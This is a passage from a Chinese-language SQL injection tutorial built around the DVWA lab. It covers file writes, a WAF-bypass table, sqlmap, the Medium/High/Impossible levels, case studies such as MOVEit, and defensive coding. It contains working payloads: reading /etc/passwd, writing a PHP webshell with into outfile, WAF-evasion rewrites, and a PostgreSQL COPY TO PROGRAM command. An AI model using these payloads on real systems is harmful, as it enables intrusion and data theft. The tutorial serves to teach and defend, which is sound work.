**7.1 先查三个条件**

写文件不是想写就能写，得同时满足三条。**一条一条查，别跳。**

**条件一：`secure_file_priv` 不能是 NULL**

MySQL/MariaDB 有个开关，限制「只能往哪个目录写文件」。

**输什么：**

```
-1' union select 1, @@secure_file_priv #
```

**看结果：**

| 你看到 | 意思 |
| --- | --- |
| 空白（什么都不显示） | 不限制，随便写 ✅ |
| 一个路径，比如 `/var/lib/mysql-files/` | 只能写这个目录 ⚠️ |
| `NULL` | 完全禁止写 ❌ |

**条件二：当前数据库账号有 `FILE` 权限**

最直接的验证方式：试着读一个系统文件。

**输什么：**

```
-1' union select 1, load_file('/etc/passwd') #
```

**应该看到：** 一大堆 `root:x:0:0:root:/root:/bin/bash` 之类。

能看到，说明**有 FILE 权限、而且文件读得出来**。什么都看不到，就是没权限。

**条件三：目标目录可写，而且你知道绝对路径**

DVWA 的上传目录我们第 7 步已经 `chmod 777` 了，路径是：

```
/var/www/html/dvwa/hackable/uploads/
```

真实站点上这个路径要靠报错信息、`@@datadir`、默认安装路径去猜 —— 这也是为什么「信息收集」比 payload 重要。

**7.2 写文件**

**输什么：**

```
-1' union select 1,'<?php system($_GET[c]);?>' into outfile '/var/www/html/dvwa/hackable/uploads/s.php' #
```

**逐段拆：**

| 这一段 | 意思 |
| --- | --- |
| `'<?php system($_GET[c]);?>'` | 要写进去的内容，一个 PHP 一句话木马 |
| `system($_GET[c])` | 把 URL 里 `c` 这个参数当命令执行。**注意 `$_GET[c]` 不用写引号**，这样 payload 里就少一层引号嵌套，省掉一堆转义麻烦 |
| `into outfile '路径'` | 把查询结果写进这个文件 |

**应该看到：** 结果区和之前一样（因为写文件不产生回显），**没有报错就是成功**。

**7.3 验证：访问它**

**在哪做：** 浏览器地址栏
**输什么：**

```
http://127.0.0.1/dvwa/hackable/uploads/s.php?c=id
```

**应该看到** 一行白底黑字：

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**恭喜，getshell 了。** 这个 `s.php` 就是 webshell —— 一个伪装成普通网页的后门。你换个命令试试：

```
http://127.0.0.1/dvwa/hackable/uploads/s.php?c=whoami
http://127.0.0.1/dvwa/hackable/uploads/s.php?c=ls%20-la%20/
```

（URL 里的空格要写成 `%20`。）

**7.4 写不进去？按这张表查**

| 报错 / 现象 | 原因 | 怎么办 |
| --- | --- | --- |
| `Can't create/write to file` | 目录不存在或没权限 | `ls -ld 目录` 看权限，`chmod 777` |
| `The MySQL server is running with the --secure-file-priv option` | 开关限制了目录 | 写到它允许的目录，或者放弃 |
| `Access denied; you need the FILE privilege` | 没权限 | 换更高权限的账号，或走别的路（`into dumpfile`、日志写马） |
| `File '...' already exists` | `outfile` 不能覆盖 | 换个文件名 |
| 没报错，但访问 404 | 路径写错 / 不是 Web 目录 | 用 `@@datadir`、报错信息推路径 |
| 写进去了但访问是源码 | PHP 没解析（写到了非 Web 目录） | 换到网站根目录下 |

> **真实环境里还有别的写文件路子**：MySQL 的通用日志（`general_log`）可以指定成 `.php` 文件，然后你发的每条查询都会被记进去 —— 等于把 payload 写进文件。这个技巧在 `into outfile` 被 `secure_file_priv` 挡住时特别有用，思路是「让数据库自己写日志」，而不是「让数据库帮你写文件」。

### 8. WAF 绕过：保安手里只有一张黑名单

**比方：** 门口保安拿着名单，看到「union」「select」「and」就拦。但他只认**字面**。你把字拆开、换个写法、变个编码，他就不认识了，可里面的服务器还认得。

**先明确一件事：** 绕过不是「有魔法 payload」，是「知道 WAF 在哪一层做字符串匹配」。它在 HTTP 层匹配文本，你只要让文本在到达数据库之前变形、在数据库里还原，它就拦不住。

**常用对照表（遇到拦了就来查）：**

| 被拦的东西 | 换成什么 | 例子 |
| --- | --- | --- |
| 空格 | `/**/`、`%09`、`%0a`、`%0c`、`+`、括号 | `union/**/select`、`select(1)from(users)` |
| `union select` | 内联注释拆词、双写 | `/*!50000union*/ /*!50000select*/`、`ununionion seselectlect` |
| `and` / `or` | `&&`、`||`、`^`、`!` | `1' && 1=1 #` |
| 单引号 | 十六进制、`char()` | `table_name=0x7573657273`、`char(117,115,101,114)` |
| 逗号 | `join`、`limit offset`、`substr ... from ... for` | `substr(database() from 1 for 1)` |
| 等号 | `like`、`in`、`between`、`regexp`、`<>` | `database() like 0x64767761` |
| `#` | `-- -`、`;%00`、`%23` | `1' and 1=1 -- -` |
| 关键字整体 | 大小写混写、URL 双重编码、Unicode | `SeLeCt`、`%2527`（`%27` 再编一次） |
| 整条请求 | 分块传输、参数污染 | `Transfer-Encoding: chunked`、同名参数传两次 |

**举一个实际改写：** 假设 WAF 拦 `union select`，你原本的 payload：

```
-1' union select user, password from users #
```

改成：

```
-1' /*!50000union*/ /*!50000select*/ user, password from users #
```

`/*!50000...*/` 是 MySQL 的「版本注释」：MySQL 会执行里面的内容，但 WAF 只看到一段注释。

> **别指望背表能过所有 WAF。** 真实场景是「试探 → 看它拦哪一段 → 针对性改写 → 再试」。而且很多 WAF 会拦「多次失败」，所以要慢、要少、要换 IP。这部分就不是初学者该操心的了。

### 9. sqlmap：能自动化，但别只会自动化

手工打了一遍，你会发现「问一个表名要输好几条」。工具就是干这个的。

**9.1 确认它装了**

```bash
which sqlmap
```

**应该看到** `/usr/bin/sqlmap`。没有就 `sudo apt install -y sqlmap`。

**9.2 拿 Cookie（跟第 2 节一样）**

浏览器 `F12` → Console → `document.cookie` → 复制。

**9.3 第一条命令：让它判断有没有注入**

```bash
sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=你的值;security=low" --batch
```

**逐段解释：**

| 这一段 | 意思 |
| --- | --- |
| `-u "地址"` | 目标 URL，带参数的 |
| `--cookie="..."` | 带上登录状态，不然它看到的是登录页 |
| `--batch` | 所有需要确认的地方自动选默认，不用你按回车 |

**应该看到** 一堆日志，关键是这三行：

```
GET parameter 'id' is vulnerable. Do you want to keep testing the others? [y/N] N
sqlmap identified the following injection point(s) ...
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
```

**9.4 后面三条命令，按顺序跑**

```bash
# ① 有哪些库
sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=你的值;security=low" --batch --dbs

# ② dvwa 库里有哪些表
sqlmap -u "同上" --cookie="同上" --batch -D dvwa --tables

# ③ 把 users 表的 user、password 拖出来
sqlmap -u "同上" --cookie="同上" --batch -D dvwa -T users -C user,password --dump
```

**应该看到** 最后一条会打印一张表，还会问你要不要顺带跑字典破哈希（选 y 它就调 hashcat 帮你破了）。

**9.5 参数速查**

| 参数 | 干什么 | 什么时候用 |
| --- | --- | --- |
| `--dbs` / `-D 库 --tables` / `-T 表 --columns` / `-C 列 --dump` | 逐层往下拖 | 常规流程 |
| `-r req.txt` | 从 Burp 保存的请求文件里读 | 参数在 POST body / JSON / 自定义头里 |
| `--data="id=1&Submit=Submit"` | 直接指定 POST 数据 | 表单是 POST |
| `--level=5 --risk=3` | 加大探测力度 | 默认跑不出来时（**危险，见下**） |
| `--technique=BEUSTQ` | 只用指定技术（B布尔 E报错 U联合 S堆叠 T时间 Q内联） | 知道该用哪种，省时间 |
| `--tamper=space2comment,between` | 加载绕过脚本 | 有 WAF |
| `--os-shell` | 直接开一个系统 shell | 有堆叠 + 写权限 |
| `--proxy=http://127.0.0.1:8080` | 走 Burp，方便看包 | 调试 payload |

**9.6 三个必须知道的坑**

1. **`--risk=3` 会把站打挂。** 它会尝试 `OR` 型 payload，一条 `UPDATE` / `DELETE` 就可能改数据、删数据。生产环境绝对别乱开。
2. **有 WAF 就跑不动。** 默认 payload 特征太明显，得先手工摸清过滤规则，再决定用哪个 tamper。
3. **它不懂业务。** 「这个 `id` 没注入，但 `sort` 参数有」「这个接口要先登录才能注」，这些只有人看得出来。

**一句话：手工是根，sqlmap 是加速器。** 顺序永远是：手工确认 → 手工摸过滤 → 再上工具批量。

### 10. 把 Medium / High / Impossible 也打一遍（这一步很值）

同一个漏洞，DVWA 给了四份不同年代的代码。你把四关都打一遍，等于看完「SQL 注入防御演进史」。

#### 10.1 切到 Medium

**在哪做：** 左侧菜单 **DVWA Security** → 下拉选 **Medium** → Submit
然后回到 **SQL Injection**。

**你会发现页面变了：**

- 地址栏里**没有** `?id=1` 了（因为改成 POST 传参）
- 结果一样显示

**先试 Low 的 payload：**

```
1' and 1=1 #
```

**应该看到：** 报错，或者查不到东西。**为什么？** 因为 Medium 的 `id` 是**数字型**（没有引号包裹），你多打的那个 `'` 反而成了语法错误。

**正确的 payload（去掉开头的引号）：**

```
1 or 1=1
```

**应该看到：** 五个用户全出来了（因为 `1 or 1=1` 恒真）。

```
1 union select user, password from users
```

**应该看到：** 用户名和哈希全出来。

**看一眼它的源码（页面最下面 View Source）：**

```php
$id = $_POST['id'];
$id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);
$query = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
```

**它加了转义，但查询里 `$id` 没有引号。** 这就是最典型的「防错了地方」：

- `real_escape_string` 防的是「引号逃逸」
- 但这句 SQL 压根不用引号，所以数字型注入不吃这一套

**教训：转义不是防御，它只补了「字符串上下文」这一个洞。换个上下文（数字、`order by`、表名）就穿了。**

#### 10.2 切到 High

DVWA Security → **High**，回 SQL Injection。

**页面结构变了：** 输入框还在，但你点 Submit 后，URL 变成 `?id=...` 跳到另一个页面（值被存进了 Session）。

**先试 Medium 的 payload：**

```
1 union select user, password from users
```

**大概率失败** —— 因为 High 那句 SQL 末尾加了 `LIMIT 1`，而且 `id` 外面有引号。

**正确写法（把前半句打成空，用 `-1`）：**

```
-1' union select user, password from users #
```

**应该看到：** 只显示**一行**（`admin` 和他的哈希）。

**为什么只有一行？** `LIMIT 1` 只让数据库返回第一条。想拿全部，用 `group_concat` 把它拼成一行：

```
-1' union select 1, group_concat(user, 0x3a, password) from users #
```

**应该看到：** 一行里塞着 `admin:5f4dcc...,gordonb:e99a18...`。

**看一眼源码：**

```php
$id = $_SESSION['id'];   // 值来自另一个页面，仍然没过滤
$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
```

**教训：把输入「藏起来」不是防御。** 从 GET 挪到 Session，只是让你多走一步。

#### 10.3 切到 Impossible（这一关你打不动，但要看懂）

DVWA Security → **Impossible**，回 SQL Injection。

**你会发现：** 页面多了一个隐藏的 `user_token`（防 CSRF），而且不管你怎么注，都只返回 `admin` 或者空。

**看一眼源码，这是正确写法：**

```php
$id = $_GET['id'];

if( is_numeric( $id ) ) {                     // ① 类型校验
    $data = $db->prepare(                      // ② 预处理：SQL 结构先定死
        'SELECT first_name, last_name FROM users WHERE user_id = (:id) LIMIT 1;'
    );
    $data->bindParam( ':id', $id, PDO::PARAM_INT );   // ③ 值单独绑定，强制是整数
    $data->execute();
    ...
}
```

**三层防御，逐一对应：**

| 层 | 代码 | 挡住什么 |
| --- | --- | --- |
| 类型校验 | `is_numeric($id)` | 非数字直接不进 SQL |
| 预处理 | `$db->prepare(...)` | SQL 结构固定，值不可能改变语法 |
| 强制类型 | `PDO::PARAM_INT` | 就算绕过了前两层，值也只能是整数 |

**这就是「根治」和「打补丁」的区别。** 前面三关全是在「过滤坏字符」，这一关是「让坏字符根本没有意义」。

**记住一句话：预处理不是「过滤得更狠」，是「让数据和代码走两条不同的路」。**

---

## 五、真实世界：一条注入是怎么变成新闻的

到这儿你已经能在靶场里拖库、写 shell 了。这一节讲的是：**同样的东西放到真实系统上，会长成什么样。**

### 1. 真实系统和靶场差在哪

DVWA 替你做了四件事，真实系统一件都不做：

| 靶场帮你做了 | 真实系统 |
| --- | --- |
| 结果直接打印 | 返回 JSON，或者一句「系统繁忙」 |
| 报错直接显示 | `display_errors` 关着，错误只进日志 |
| 注入点在 `?id=` 上 | 可能在 JSON body、在 `sort` 参数、在 Cookie、在 `X-Forwarded-For` 头里 |
| 数据库账号是「够用就好」 | 常常是 `root` / `dbo`，能读能写能执行 |

**打个比方：** 靶场是「教练把球停在你脚下，告诉你往哪踢」；真实目标是「球在移动，有人在抢，还有人吹哨」。

**但这四件事只影响「怎么找」，不影响「找到之后怎么打」。** 你第三节学的五步，到了真实系统上一步都不少，只是每一步要多花点时间。

### 2. 一条注入能升级到哪一步

这是理解所有真实案例的钥匙。SQL 注入的价值，取决于**它能往哪升级**：

| 升级到 | 手段 | 相当于 |
| --- | --- | --- |
| 读数据 | union / 盲注 | 在档案室里**翻本子** |
| 越权 | 改写登录查询、改 `WHERE` 条件 | **配了一把别人的钥匙** |
| 写文件 | `into outfile` | 在档案室**装了个对讲机** |
| 执行命令 | `xp_cmdshell` / `COPY PROGRAM` / UDF | 让档案室的人**替你去干活** |

**注意第二条「越权」** —— 这条最容易被忽略，但它是 MOVEit 那种大事件的起点。

### 3. 案例一：MOVEit Transfer（2023，最有教学价值的一场）

#### 3.1 它是什么

Progress 公司的 MOVEit Transfer，是企业之间传文件的「安全文件传输系统」。

**谁在用：** 银行给客户发对账单、医院和保险公司交换理赔材料、政府和企业互传数据 —— 凡是「两个组织之间要安全地传一批文件」，都可能用它。

**它的位置：** 通常挂在公网 443 上，谁都能访问登录页。后端是 SQL Server / MySQL / Azure SQL。

**为什么它值钱：** 它经手的文件本身就是机密。攻破它 = 直接站在数据交换的中心。

#### 3.2 洞是什么

CVE-2023-34362，一个**不需要登录就能打的 SQL 注入**。官方描述很克制：未认证攻击者可以访问并操作 MOVEit 的数据库。CVSS 9.8。

#### 3.3 关键洞察：这里的注入不是「读」，是「登录」

这是全文最想让你记住的一点。

普通系统里，`users` 表存账号密码；登录成功后，服务器在**内存或 Session** 里记「这个人登录了」。

MOVEit 这类企业系统，会把**会话状态也存进数据库**（因为要多台服务器共享登录状态）。

于是：

> **SQL 注入能写数据库 → 就能伪造一条「我已经登录了」的会话记录 → 后面的文件上传接口就对你敞开了。**

看出来了吗？**注入在这里扮演的是「伪造身份」，不是「偷数据」。**

这就是为什么一个「只能读数据库」的漏洞，最后能变成「往 Web 目录写文件」—— 中间那一步是**身份**。

**翻译成 DVWA：** 相当于你在 Low 关注入的不只是 `users` 表，而是数据库里那张「谁登录了」的表；你一 `insert` 一行，系统就认为你是合法用户。

#### 3.4 攻击链（公开分析里能看到的五步）

**第 1 步：踩点**

扫全网找 MOVEit 的指纹：登录页的 HTML 特征、`/human2.aspx`、`/moveitisapi/moveitisapi.dll` 这些端点、版本号。

**为什么要扫？** 因为这个洞影响面太大，攻击者不需要「精准锁定某家公司」，他只需要「找到所有没打补丁的 MOVEit」。这叫**机会型攻击**。

**第 2 步：注入**

构造一个看起来像正常业务请求的 HTTP 包，把 SQL 塞进后端查询。

公开的应急分析里能看到两件事：

- 攻击者往会话表里写了伪造记录
- 攻击者创建过一个叫 `Health Check Service` 的账号 —— 名字起得像系统自带的，混在用户列表里很难被发现

**注意这个细节：** 起名 `Health Check Service` 不是技术需要，是**反取证**。真实攻击者会考虑「运维人员看到这个名字会不会怀疑」。

**第 3 步：落地（写 webshell）**

用伪造出来的身份，走 MOVEit 自己的文件上传功能，把 `human2.aspx` 这个 ASPX 文件写进 Web 目录。

这个 webshell 后来被命名为 **LEMURLOOT**。

**第 4 步：控制**

LEMURLOOT 用自定义 HTTP 头接收指令（`X-siLock-Comment` 被当成口令位），能跑 SQL、能读写文件、能打包目录。

**它伪装成一个正常页面**，混在业务流量里。所以很多受害单位在被通知之前，完全不知道自己的服务器上多了个文件。

**第 5 步：外带**

把 `MOVEitDMZ` 库里的数据和磁盘上的文件打包，上传到攻击者控制的 Azure Blob 存储，然后删掉临时文件。

**整个过程：不加密、不弹窗、屏幕上没有勒索信。** 这是**纯数据窃取** —— 偷完再谈钱。

#### 3.5 结果和时间线

CL0P 用它做了一轮工业化勒索：不加密，只偷数据，然后按公司规模开价。公开统计里，受影响组织数以千计，涉及人数以千万计。

**时间线（这才是最吓人的部分）：**

| 时间 | 发生了什么 |
| --- | --- |
| 5 月 31 日 | 厂商发布公告和补丁 |
| 6 月 1 日 | 安全公司观测到第一波大规模利用 |
| 6 月 2 日起 | 批量拖数据开始 |

**从「公布」到「全网开打」，不到 24 小时。**

这说明攻击方早就在盯着这个产品了 —— 补丁一发布，等于告诉所有人「这里有个洞」，然后他们立刻把准备好的 exploit 撒出去。

#### 3.6 三条教训

1. **认证状态存在数据库里，SQL 注入就等于登录绕过。** 别再以为注入只是「读」。
2. **边界上的一个拼接，能把整条链打穿。** MOVEit 的会话校验看起来是「内部逻辑」，但它就是边界。
3. **补丁窗口以小时计。** 暴露在公网、又有已知洞的产品，别等「下周维护窗口」。

### 4. 案例二：2026 年在野被利用的那几个

看下面这张表之前，先解释两个词：

- **CISA KEV**：美国 CISA 维护的「已确认被真实攻击利用」的漏洞清单。**能进这个清单的，都不是理论漏洞。**
- **在野利用**：不是实验室里跑 PoC，是真的有人在拿它打真实目标。

以下是 KEV 里 SQL 注入那部分（节选，按加入时间倒序）：

| 加入 KEV | CVE | 产品 | 一句话 | 升级到哪 |
| --- | --- | --- | --- | --- |
| 2026-10-23 | CVE-2026-114625 | Arista VeloCloud Orchestrator | 未认证 SQLi，打到编排器的特权内部功能 | 控制平面沦陷 |
| 2026-09-14 | CVE-2026-76461 | Cisco Secure Email Gateway | 未认证 SQLi，最终以 root 执行命令 | SQLi → RCE |
| 2026-09-02 | CVE-2026-9586 | Sangoma Switchvox | 单个请求打到后端 PostgreSQL | 堆叠 → RCE |
| 2026-08-11 | CVE-2026-72898 | Metabase | 未认证 SQLi 打进应用库，拿管理员 | 越权 → 偷数据源凭据 |
| 2026-07-21 | CVE-2026-60137 | WordPress Core | 插件/主题把不可信输入传进核心参数时触发 | SQLi → 链式 RCE |
| 2026-05-22 | CVE-2026-9082 | Drupal Core | 数据库抽象层里的 SQLi | 提权 → RCE |
| 2026-05-08 | CVE-2026-42208 | BerriAI LiteLLM | 读改代理数据库，拿到它管理的密钥 | 供应链跳板 |
| 2026-04-13 | CVE-2026-21643 | FortiClient EMS | 未认证 SQLi，可执行未授权代码 | SQLi → RCE |
| 2026-02-12 | CVE-2024-43468 | Microsoft Configuration Manager | 未认证 SQLi，可在站点服务器上执行命令 | 拿域 |
| 2025-07-18 | CVE-2025-25257 | FortiWeb | 未认证 SQLi，可执行任意 SQL / 命令 | SQLi → RCE |
| 2024-11-14 | CVE-2024-9465 | Palo Alto Expedition | 未认证 SQLi，读哈希、设备配置、API key，还能读写文件 | 迁移工具变跳板 |
| 2024-10-02 | CVE-2024-29824 | Ivanti EPM | 同网段未认证 SQLi，可执行任意代码 | 内网横向 |

**这张表说明一件事：** SQL 注入不是「老掉牙的小洞」，它是 2026 年还在被批量利用的东西。而且被利用的全是「**未认证 + 能升级到 RCE**」那种。

挑三个拆开讲，讲清「怎么做到的」。

#### 4.1 Cisco Secure Email Gateway（CVE-2026-76461）

**它是什么：** 邮件网关，也就是公司邮箱的最外层。它必须对公网开放 25 端口（收邮件）和 443（管理界面），所以它是攻击面里最外面那一层。

**洞：** AsyncOS 里的未认证 SQL 注入，最终能达到**以 root 权限执行命令**。

**「注」怎么变成「root」的？**

公开信息没细说内部实现，但这类设备有个共同结构：

> **管理界面和底层系统跑在同一个上下文里。**

数据库进程本身有高权限，或者应用把「任务」「配置」存在数据库里，再定期取出来执行。

所以只要你能写库，就能让系统替你执行命令 —— 这跟你刚在 DVWA 里用 `into outfile` 写 PHP 是同一个思路，只是换了个「执行器」。

**启示：** SQL 注入的最终危害，取决于**这条数据库连接背后是谁**。一个只读账号和一个 root 跑的数据库连接，是完全两种事。

#### 4.2 Sangoma Switchvox（CVE-2026-9586）

**它是什么：** 企业 IP 电话系统（PBX），负责全公司的电话。

**洞：** 一个请求就能打到后端 PostgreSQL，能跑任意语句，包括 RCE。

**这条路在 PostgreSQL 里几乎是标准的：**

```sql
1'; COPY (SELECT '') TO PROGRAM 'id > /tmp/pwned'; --
```

`COPY ... TO PROGRAM` 会让**数据库服务进程**去执行那个 shell 命令 —— 不是 Web 进程，是数据库进程。而数据库进程往往是 `postgres` 用户，权限不低，还能直接读整个数据目录。

**为什么 PostgreSQL 的注入比 MySQL 危险？** 因为这是**数据库原生自带**的执行命令功能，不需要额外提权。MySQL 想执行命令得靠 UDF 提权或者写文件，PostgreSQL 是「本来就有这个功能」。

**启示：** 评估注入危害时，先看两件事：**数据库类型**、**账号权限**。同样的 payload，PostgreSQL + 高权限 = RCE；MySQL + 只读 = 只能拖库。

#### 4.3 Metabase（CVE-2026-72898）

**它是什么：** 开源的 BI / 数据分析工具。公司用它连各种数据库（MySQL、Postgres、ClickHouse、数据仓库）做报表和看板。

**洞：** 未认证 SQL 注入打进 Metabase 自己的应用库，一条路拿到管理员。

**为什么这个特别值得说？**

**因为 BI 工具是「数据地图」。** 它里面存着什么？**所有已连接数据库的地址、账号、密码。**

所以：

```
未认证 SQLi
  → 拿到 Metabase 管理员
  → 读连接配置，导出所有数据源的凭据
  → 用这些凭据直连业务库
  → 拖走真正值钱的数据
```

**攻破 Metabase ≠ 偷到一份数据，攻破它 = 拿到通往公司所有数据库的钥匙。**

**启示：内部工具不是「内部」就安全。** 一个 BI 面板的注入，杀伤力可能比核心业务系统更大，因为它手里的凭据最多。

#### 4.4 WordPress Core 那两个（CVE-2026-60137 + CVE-2026-63030）

这两个是一对：

- `CVE-2026-60137`：核心里的 SQL 注入，**当插件或主题把不可信输入传进核心参数时触发**
- `CVE-2026-63030`：一个「解析冲突」，跟上面那个串起来，能在**默认安装**上做到未认证 RCE

**注意第一个的措辞：** 洞在核心，但触发条件是「插件传了脏数据进去」。这意味着：**你可能什么插件都没装错，只是装了一个会传脏数据的插件。**

**这类洞的特点是「批量」：** 全球几千万个 WordPress 站点，指纹一秒识别，payload 一份打全场，扫描器一晚上能扫完好几个网段。

**你不需要精准目标 —— 你要的是量。**

### 5. 为什么这些洞能被「批量」打

看上面所有案例，你会发现同一个结构：

```
公网可达的指纹  →  一份自动化扫描脚本  →  成功的目标  →  自动化后续利用
```

三件事凑到一起，就变成了流水线：

1. **指纹太好认。** 登录页 HTML、`Server` 头、静态资源 hash、favicon 的 md5，随便一个就能定位产品和版本。Shodan / Censys / FOFA 这类空间测绘引擎，把这一步做成了「搜一下」。
2. **利用脚本模板化。** 一个 SQLi 的 payload 对不同实例几乎不用改：端点固定、参数固定、注入点固定。写一次，跑一万次。
3. **升级路径标准化。** 写 webshell 的路径、`xp_cmdshell` 的开关、外带用的云存储，全是固定的。所以「打进去 → 拿权限 → 拖数据」能做成流水线。

**这就是为什么 MOVEit 公布后 24 小时就能全网开打 —— 不是攻击者多强，是这件事已经工业化了。**

**反过来讲防御：** 你的目标不是「没人打得进来」，而是「**在批量扫描里不显眼，在打进来之后拿不到东西**」。版本号藏起来、默认页面换掉、数据库权限压到最小、Web 目录不给写 —— 每一条都在削弱这条流水线。

### 6. 二十年了，为什么 SQL 注入还没死

因为它不是「技术难题」，是「工程习惯」。

| 原因 | 具体表现 |
| --- | --- |
| 存量代码太多 | 十几年前的 PHP 项目、外包交付的后台、没人维护的插件，还在公网上跑 |
| 参数化覆盖不全 | 值都参数化了，但 `order by` 的字段名、表名、`IN` 列表、分页 `limit` 往往还是拼接 —— 因为「标识符不能参数化」 |
| 报错没关 | `display_errors=On` 直接把数据库错误贴到页面上，等于免费送调试器 |
| 权限太大 | Web 应用的数据库账号常常是 `root` / `dbo`，能读写所有库、能 `outfile`、能调存储过程 |
| WAF 当成了防御 | WAF 是补丁，不是修复。它挡特征，你绕编码 |

**其中第二条最值得说。** 很多人以为「我用了 ORM / 我用了参数化，就安全了」，然后写了这样的代码：

```php
$sql = "SELECT * FROM users ORDER BY " . $_GET['sort'];   // 拼接字段名
```

参数化管不了字段名（因为字段名是**结构**，不是**值**）。这里的正确做法只有一种：**白名单映射**。

```php
$allow = ['id', 'name', 'created_at'];
$sort  = in_array($_GET['sort'], $allow, true) ? $_GET['sort'] : 'id';
```

### 7. 防御清单：每一条都给你「错误写法 vs 正确写法」

**第一层：参数化（唯一真正根治的手段）**

```php
// ❌ 错误
$sql = "SELECT * FROM users WHERE id = '$id'";

// ✅ 正确（PHP / PDO）
$stmt = $pdo->prepare('SELECT * FROM users WHERE id = :id');
$stmt->bindParam(':id', $id, PDO::PARAM_INT);
$stmt->execute();
```

```java
// ✅ 正确（Java）
PreparedStatement ps = conn.prepareStatement("SELECT * FROM users WHERE id = ?");
ps.setInt(1, id);
```

```python
# ✅ 正确（Python）
cur.execute("SELECT * FROM users WHERE id = %s", (user_id,))
```

**注意：** 参数化只能用在「值」上。字段名、表名、`limit` 数字，必须走白名单。

**第二层：类型校验**

```php
// 数字参数就强制成数字，别让它带着字符串进 SQL
$id = (int) $_GET['id'];
```

**第三层：最小权限**

Web 应用的数据库账号，只给它需要的那几个库的那几个权限。**永远不给 `FILE`、不给 `SUPER`、不给 `xp_cmdshell`。**

**第四层：关掉回显**

```ini
display_errors = Off
log_errors = On
```

页面上只给一句「操作失败」，详细信息写日志。

**第五层：监控**

数据库审计日志里，`union`、`information_schema`、`sleep(`、`extractvalue` 出现就是强信号；WAF 日志里一晚上同一个 IP 扫几百个 `?id=`，也该有告警。

**第六层：供应链**

插件、主题、三方组件定期更新。WordPress 那两个洞，一半责任在「插件把输入传进核心」。

---

## 六、常见问题（照着做卡住时，先来这儿找）

### 装环境阶段

**Q：浏览器打开 `http://127.0.0.1` 是「无法连接」。**
Apache 没跑。终端 `sudo systemctl start apache2`，再 `sudo systemctl status apache2` 看绿字。

**Q：`/dvwa/` 返回 404 Not Found。**
目录不在 `/var/www/html/dvwa`。`ls /var/www/html` 看一眼，名字是不是 `DVWA`（大写）或者 `DVWA-master`。改名：`sudo mv /var/www/html/DVWA-master /var/www/html/dvwa`。

**Q：DVWA 首页一片红，`PHP module mysqli: Missing`。**
```bash
sudo apt install -y php-mysqli
sudo systemctl restart apache2
```

**Q：点 Create Database 报 `Could not connect to the database`。**
按顺序查：① `sudo systemctl status mariadb` 是不是 running；② `config.inc.php` 里那四行跟第 4 步建的库/用户/密码是否一致；③ `sudo mariadb -e "select user,host from mysql.user;"` 里有没有 `dvwa localhost`。

**Q：改完配置没反应。**
`sudo systemctl restart apache2`，浏览器按 `Ctrl + F5` 强制刷新。

### 打 Low 关阶段

**Q：输 `1'` 没有报错，页面正常。**
说明它把引号转义了（`\'`）或者用的是数字型。先试 `1 and 1=1` / `1 and 1=2` 看真假有没有区别，再决定用不用引号。

**Q：报 `You have an error in your SQL syntax`，但我 payload 是照抄的。**
九成是**输入法**的锅：中文引号 `‘’`、全角空格、全角分号 `；`。切英文重打一遍。剩下的可能是空格数量、`#` 后面多了字符。

**Q：`union select` 报 `The used SELECT statements have a different number of columns`。**
列数不一致。回去 `order by` 数清楚，`select 1,2` 里数字的个数必须和原查询列数相等。

**Q：`order by 3` 没报错，`order by 4` 也不报错，一路都不报。**
有的数据库对超界 `order by` 不报错，只是忽略。这时候改用 `union select 1,2,3,4...` 一个个试，报「列数不一致」就是超了。

**Q：`where table_name='users'` 报语法错。**
引号被转义了。换成十六进制 `0x7573657273`（`python3 -c "print('users'.encode().hex())"` 可以算）。

**Q：`into outfile` 报 `Can't create/write to file`。**
三查：`@@secure_file_priv` 是不是空、账号有没有 `FILE`（用 `load_file('/etc/passwd')` 试）、目录权限是不是 777。还有一个坑：**路径必须是不存在的文件**，同名文件写不进去。

**Q：`sleep(3)` 页面秒回。**
要么 `sleep` 被过滤（换 `benchmark(10000000,md5('a'))`），要么不是 MySQL（SQL Server 用 `waitfor delay '0:0:3'`，PostgreSQL 用 `pg_sleep(3)`）。

**Q：hashcat 说找不到 rockyou.txt。**
```bash
sudo gunzip /usr/share/wordlists/rockyou.txt.gz
```
注意是 `rockyou.txt.gz` 解压成 `rockyou.txt`，路径在 `/usr/share/wordlists/`。

**Q：hashcat 跑完 `Exhausted`，没破出来。**
字典里没有这个密码。DVWA 那几个都在 rockyou 里，破不出来一般是哈希抄错了（多空格、少字符），或者 `-m` 类型写错。

### 脚本阶段

**Q：`ModuleNotFoundError: No module named 'requests'`。**
```bash
sudo apt install -y python3-requests
```

**Q：脚本跑出来全是空字符串。**
判据不对。打开浏览器手工打一次 `1' and 1=1 #`，看看页面里到底有没有 `First name` 这几个字；没有就改脚本里那一行判据。

**Q：脚本第一次能跑，后来全空。**
Cookie 过期（DVWA 默认会话有时限）。重新登录，重新 F12 取 `document.cookie`。

**Q：脚本报 `IndentationError` 或 `TabError`。**
粘贴时缩进被吞了。Python 对缩进敏感，用 `nano` 打开，按 `Ctrl + W` 搜 `def`，把缩进改成 4 个空格。

### 其他

**Q：sqlmap 说 `all tested parameters do not appear to be injectable`。**
先确认 cookie 有没有过期、参数是不是在 POST body 里（用 `--data` 或 `-r`）。**手工能打、工具打不了 = 工具配置问题，不是洞不存在。**

**Q：我把数据库打崩了 / 页面全乱码。**
VMware → 虚拟机 → 快照 → 恢复到「DVWA装好了」。这也是一开始让你拍快照的原因。

**Q：payload 里的 `+` 怎么变成空格了？**
URL 里 `+` 就是空格的编码。想要真的加号，写 `%2b`。

**Q：为什么靶场里随便打，真实站点不行？**
靶场是别人专门搭来给你打的，真实站点是别人的东西。**授权**是唯一的界线。没书面授权的目标，碰一下都是越界。

---

## 七、收尾：一张能贴在屏幕边的清单

### 打点八步

| 步 | 你要回答的问题 | 手段 | 打不动说明什么 |
| --- | --- | --- | --- |
| 1 | 它会不会把我说的话当命令？ | `'`、`and 1=1` / `and 1=2` | 有转义或没注入点 |
| 2 | 是字符型还是数字型？ | 加不加引号 | 需要换上下文再试 |
| 3 | 这条查询有几列？ | `order by n` | `order by` 被过滤 |
| 4 | 哪几列会打印出来？ | `union select 1,2,...` | 没有回显，转盲注 |
